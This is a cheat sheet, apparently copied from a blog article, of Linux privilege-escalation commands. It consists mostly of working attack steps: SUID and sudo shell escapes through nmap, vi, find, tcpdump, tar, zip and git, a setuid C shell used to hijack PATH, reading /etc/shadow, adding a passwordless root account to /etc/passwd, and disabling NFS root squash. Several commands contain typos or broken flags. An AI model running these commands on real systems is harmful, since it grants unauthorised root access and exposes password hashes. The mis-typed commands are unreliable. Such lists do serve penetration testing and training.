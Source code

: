 ### Original artical - https://jieliau.medium.com/privilege-escalation-on-linux-platform-8b3fbd0b1dd4

# Linux Pric Esc Commands

## 01 Kernel Exploit

	$ uname -a
	$ cat /etc/issue
	$ cat /etc/*-release
	$ cat /etc/lsb-release
	$ cat /etc/redhat-release
	$ lsb_release

## 02 Exploit the service running as root

For Samba 2.2.x, 
 - https://www.exploit-db.com/exploits/10

For MySQL, if there is mysql daemon running as root, you could utilize UDF (User Define Function) to get root shell.
 - https://www.exploit-db.com/exploits/1518

## 03 Find anything with SUID / SGID permission

### Finding interesting file

	$ find / -user root -perm -4000 2>/dev/null
	$ find / -perm -2000 2>/dev/null


### namp 

	$ nmap --interactive
	nmap> !sh

	Another way below (if nmap doesn’t have interactive mode):
	$ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse)
	$ sudo nmap --script=/tmp/shell.nse)

### vi

	$ vi
	:!sh

### find
	$ find / home -exec sh -i \;

### python

	$ python -c ‘import pty;pty.spawn(“/bin/sh”)’

### strace

	$ strace -o /dev/null /bin/sh


### tcpdump

	$ echo $’id\ncat /etc/shadow’ > /tmp/.shell
	$ chmod +x /tmp/.shell
	$ tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root


If you find out one script file with SUID permission, owned by root and executable by others, and this script file will execute some commands. You can play the trick to get root shell. For example here, this script will execute scp command transferring some backup file to somewhere. Add . into $PATH and compile setuid.c, rename the compiled binary to scp and put it under current folder. And then run that script.

	$ export PATH=.:$PATH
	$ cat setuid.c
		#include <stdio.h>
		int main(void)
		{
		setuid(0); setgid(0); seteuid(0); setegid(0); execvp(“/bin/sh”, NULL, NULL);
		}
	$ mv setuid scp
	$ ./script.sh

### abuse sudo

Use the following command to show which command have allowed to the current user.

	$ sudo -l

And if you find the following command with NOPASSWD and root set in the output. You win again !!!

### zip

    $ sudo zip /tmp/test.zip /tmp/test -T --unzip-command=”sh -c /bin/bash”

### tar

    $ sudo tar cf /dev/null testfile --checkpoint=1 — checkpointaction=exec=/bin/bash

### strace

    $ sudo strace -o/dev/null /bin/bash

### tcpdump

    $ echo $’id\ncat /etc/shadow’ > /tmp/.shell
    $ chmod +x /tmp/.shell
    $ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root

### nmap

    $ echo “os.execute(‘/bin/sh’)” > /tmp/shell.nse
    $ sudo nmap --script=/tmp/shell.nse

    Another way below:
    ($ sudo nmap --interactive
    nmap> !sh)

### scp

    $ sudo scp -S /path/to/your/script x y

### except

    $ sudo except spawn sh then sh

### nano

    $ sudo nano -S /bin/bash

### git

    $ sudo git help status
    : !/bin/bash

### gdb/ftp

    $ sudo ftp
    : !/bin/sh



## 05 Find any writable file owned by root

Please use the following command to find any writable files owned by root. You might be able to see the script file and add the needed command for your privilege escalation.

    $ find / -perm -002 -user root -type f -not-path “/proc/*” 2>/dev/null

## 06 Check /etc/passwd if writable

If you see /etc/passwd is writable, the only thing you should do is to echo one line to /etc/passed

    $ echo “tseruser::0:0:pawned:/root:/bin/bash” >> /etc/passwd
    $ su testuser
	
## 07 NFS root squashing

According Wikipedia, root squash is a special mapping of the remote superuser (root) identity when using identity authentication (local user is the same as remote user). Under root squash, a client’s uid 0 (root) is mapped to 65534 (nobody). It is primarily a feature of NFS but may be available on other systems as well.

In the scenario which you use showmount to find your target has NFS service up and running and you’re already in via anyway and you find you have the permission to edit /etc/exports as well, for example, you can use sudoedit to edit /etc/exports. You can put no_root_squash to disable root squash. Please see below:

    /home/userfolder *(rw,no_root_squash)

And then you can mount this folder with local root and put the copy of /bin/bash into it. After this, try use the exploited normal account to execute this /bin/bash. You will get the heaven !!!

## 08 Useful tools

	- LinEnum
	https://github.com/rebootuser/LinEnum
	
	- linuxprivchecker
	https://github.com/sleventyeleven/linuxprivchecker
	
	- unix-privesc-check
	https://github.com/pentestmonkey/unix-privesc-check
